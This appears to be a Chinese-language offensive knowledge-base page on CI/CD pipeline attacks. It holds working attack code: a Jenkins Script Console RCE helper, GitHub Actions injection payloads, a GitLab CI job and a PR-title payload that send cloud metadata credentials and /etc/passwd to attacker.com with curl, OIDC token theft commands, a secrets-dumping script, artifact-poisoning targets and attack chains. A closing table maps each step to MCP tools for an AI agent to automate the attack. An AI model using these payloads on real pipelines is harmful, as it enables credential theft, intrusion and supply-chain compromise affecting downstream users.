

# CI/CD Pipeline 攻击

## 0. Pipeline 入口与信任边界

CI/CD 的关键不是“能不能跑命令”，而是谁能触发、在哪个 runner 上跑、是否带 secrets/OIDC、产物会不会进入部署链。

| 入口 | 可控字段 | 运行位置 | 命中标志 |
|---|---|---|---|
| GitHub PR / issue_comment | title/body/branch/label | hosted/self-hosted runner | shell 注入、secret/OIDC |
| `pull_request_target` | fork PR 内容 + base repo token | base 权限上下文 | 高权 `GITHUB_TOKEN` |
| Jenkins job | parameter/build token/Groovy | controller/agent | script console/job RCE |
| GitLab CI | `.gitlab-ci.yml`, variable, merge request | shared/private runner | runner env / registry token |
| artifact/cache | cache key、artifact name/path | 后续 job / deploy | 下游执行被污染 |
| package publish | npm/PyPI/Docker tag | downstream install/deploy | supply chain pivot |



### 0.1 Workflow 风险打点脚本

```python
# ci_workflow_surface.py — 从 workflow 提取可控上下文与高权信号
import json
import re
from pathlib import Path

CTX = re.compile(r"\$\{\{\s*github\.event\.(pull_request|issue|comment|head_commit|workflow_run)[^}]*\}\}")
HIGH = re.compile(r"pull_request_target|id-token:\s*write|contents:\s*write|packages:\s*write|self-hosted|docker/login-action", re.I)

def scan(root=".github/workflows"):
    for path in Path(root).glob("*.y*ml"):
        text = path.read_text(encoding="utf-8", errors="ignore")
        print(json.dumps({
            "file": str(path),
            "event_context_refs": CTX.findall(text),
            "high_priv_signals": HIGH.findall(text),
            "run_lines": [l.strip() for l in text.splitlines() if l.strip().startswith("run:")][:20],
        }, ensure_ascii=False))

if __name__ == "__main__":
    scan()
```

## Jenkins Groovy Script Console

```python
# Jenkins Script Console = 直接执行 Groovy → shell
import requests

def jenkins_script_console(target: str, cmd: str):
    """Jenkins Script Console RCE"""
    groovy_code = f'''
    def proc = "{cmd}".execute()
    def out = new StringBuilder()
    proc.waitForProcessOutput(out, System.err)
    println(out.toString())
    '''
    r = requests.post(f"{target}/script", data={"script": groovy_code},
        auth=("user", "pass"))  # 如果无认证则跳过
    return r.text

# 如果 Script Console 无认证或凭证泄露 → 直接 RCE
# 典型 CTF 场景: Jenkins 暴露在公网，无密码
```

## GitHub Actions Workflow Injection

```yaml
# 场景: CI 从 PR body/title 取参数但不净化
# .github/workflows/build.yml:
#   - run: echo "${{ github.event.pull_request.title }}"

# Attack PR Title:
# ]); curl https://attacker.com/$(cat /etc/passwd | base64); #
# → 注入到 shell 命令 → RCE → 读 runner 的 secrets

# 更多注入点:
# PR body, branch name, commit message, issue title, label name
```

### GitHub Actions 注入判定矩阵

| Sink | 可控输入 | Payload 形态 | 成功样本 |
|---|---|---|---|
| `run:` shell | PR title/body/branch | 引号闭合 + 命令拼接 | runner 输出 marker |
| composite action input | workflow_dispatch / issue_comment | `${{ }}` 进入 action | action 参数错位 |
| `pull_request_target` | fork PR + checkout head | 高权 token 运行 fork 代码 | contents/packages 写权限 |
| OIDC | `id-token: write` + cloud trust 宽 | 请求 OIDC token | STS role identity |
| cache/artifact | cache key/path/name | 覆盖后续 job 文件 | deploy job 执行污染文件 |

```yaml
# payload 形态示例：按 run shell 上下文调整闭合方式
title: 'x"; id; env | sort | sed -n "1,20p"; #'
branch: 'feature/$(id)'
comment: '`id`'
```

```python
# 自动化探测 GitHub Action 注入点
def probe_gha_injection(repo: str):
    """检测 workflow 是否从 PR 参数取数据"""
    import requests, re
    workflows = requests.get(
        f"https://api.github.com/repos/{repo}/contents/.github/workflows",
        headers={"Accept": "application/vnd.github.v3+json"}
    ).json()

    for wf in workflows:
        content = requests.get(wf["download_url"]).text
        # 找危险表达式
        dangerous = re.findall(
            r'\$\{\{\s*github\.event\.(pull_request|issue_comment|push)',
            content
        )
        if dangerous:
            print(f"[!] {wf['name']}: unsafe context refs: {dangerous}")
```

## GitLab CI YAML 注入

```python
# 如果 GitLab CI 允许用户通过 Web 界面或 API 编辑 .gitlab-ci.yml
# 在 runner 上直接执行命令:

# 攻击者提交的 .gitlab-ci.yml:
# stages:
#   - exploit
# exploit:
#   script:
#     - curl -s "http://169.254.169.254/latest/meta-data/iam/security-credentials/" | base64 | curl -d @- https://attacker.com/log
#   tags:
#     - docker  # 或 self-hosted runner

# Self-hosted runner 上的 RCE = 访问到 runner 的所有环境变量和 secrets
```

## Self-Hosted Runner 滥用

```python
# 如果 PR 可以触发 self-hosted runner (高信任 runner 暴露):
# 1. Fork repo → 修改 workflow → 在 self-hosted runner 上执行
# 2. 读 CI/CD secrets (GITHUB_TOKEN, AWS keys, etc.)
# 3. 如果 runner 部署在 AWS → 读 metadata → IAM credential

# 探测是否使用 self-hosted runner:
def detect_self_hosted(repo: str):
    """检查项目是否有 self-hosted runner"""
    wf = requests.get(
        f"https://api.github.com/repos/{repo}/actions/workflows"
    ).json()
    for w in wf.get("workflows", []):
        # 找 runs-on: [self-hosted, ...]
        r = requests.get(w["url"]).json()
        if "self-hosted" in str(r):
            print(f"[!] Self-hosted runner: {w['name']}")
```

## OIDC / Cloud Role 交换

```bash
# GitHub Actions 内常见 OIDC 打点
echo "$ACTIONS_ID_TOKEN_REQUEST_URL"
echo "$ACTIONS_ID_TOKEN_REQUEST_TOKEN" | head -c 20
curl -sS -H "Authorization: Bearer $ACTIONS_ID_TOKEN_REQUEST_TOKEN" \
  "$ACTIONS_ID_TOKEN_REQUEST_URL&audience=sts.amazonaws.com"

# 拿到 OIDC JWT 后看 sub/aud/ref/workflow，再试云侧 AssumeRoleWithWebIdentity
```

| OIDC claim | 观察 | 可打点 |
|---|---|---|
| `sub` | `repo:org/repo:ref:refs/heads/main` | 分支/环境信任过宽 |
| `aud` | `sts.amazonaws.com` / custom | audience 可控 |
| `workflow` | workflow filename | 任意 workflow 可换高权 role |
| `environment` | prod/stage | environment gate 是否被绕过 |

## Artifact / Cache / Image Poisoning

```python
# ci_artifact_poison_plan.py — 产物污染路径
POISON_POINTS = {
    "cache": ["node_modules", ".venv", "vendor", "build/", "dist/"],
    "artifact": ["release.zip", "coverage/", "site/", "lambda.zip"],
    "docker": ["latest", "dev", "sha-*", "cache-from"],
}

for kind, names in POISON_POINTS.items():
    for name in names:
        print({"kind": kind, "target": name, "downstream": "deploy/release job"})
```

## 环境变量/Secrets 渗出

```python
# 在 CI runner 上执行后:
import os
all_env = dict(os.environ)
# 找敏感变量
SENSITIVE_KEYS = ["AWS_", "GCP_", "AZURE_", "SECRET", "TOKEN", "KEY",
                   "NPM_TOKEN", "PYPI_TOKEN", "DOCKER_PASSWORD",
                   "KUBECONFIG", "SSH_KEY", "GITHUB_TOKEN"]
for k, v in all_env.items():
    if any(s in k.upper() for s in SENSITIVE_KEYS):
        print(f"[!] {k}={v[:30]}...")
```

## 攻击链

```
Jenkins Script Console RCE → 读 secrets → AWS IAM → 云账户
GitHub Action injection → shell RCE → GITHUB_TOKEN → push 后门到 main
GitLab CI YAML → runner RCE → metadata → IAM credential → 横向移动
Self-hosted runner → PR fork → workflow 修改 → secrets 渗出 → npm publish
CI pipeline → Docker image 污染 → 供应链攻击 → 下游全部受影响
```

## Evidence

- `workflow_surface.jsonl`: workflow 文件、触发器、权限、runner、可控 context、run sink。
- `runner_identity.json`: runner OS、hostname、self-hosted 标签、workspace、network。
- `secret_env_matrix.txt`: 命中的 key 名、长度、来源 job，不保存真实值。
- `oidc_claims.json`: aud、sub、repository、ref、workflow、cloud role 返回。
- `artifact_poison.json`: cache/artifact/image 名称、上游写入、下游读取、marker。
- 成功样本: runner 执行 marker、OIDC 换到 cloud role、artifact 被 deploy job 使用、registry/package 被下游拉取。
- 失败样本: fork PR 无 secrets、hosted runner 隔离、OIDC audience 拒绝、artifact 不进入发布链。

## MCP 工具映射

AI Agent 可调用以下 MCP 工具自动完成或加速上述攻击步骤：

| 攻击步骤 | MCP 工具 | 说明 |
|---------|---------|------|
| CI/CD 端点探测 | `http_probe` | HTTP GET 探测 CI/CD 服务端点 |
| 知识检索 | `kb_router` | 按 CI/CD 攻击信号搜索知识库 |
| 供应链下一跳 | `kb_router` | 发现 package/artifact/image 后跳转 dependency confusion |
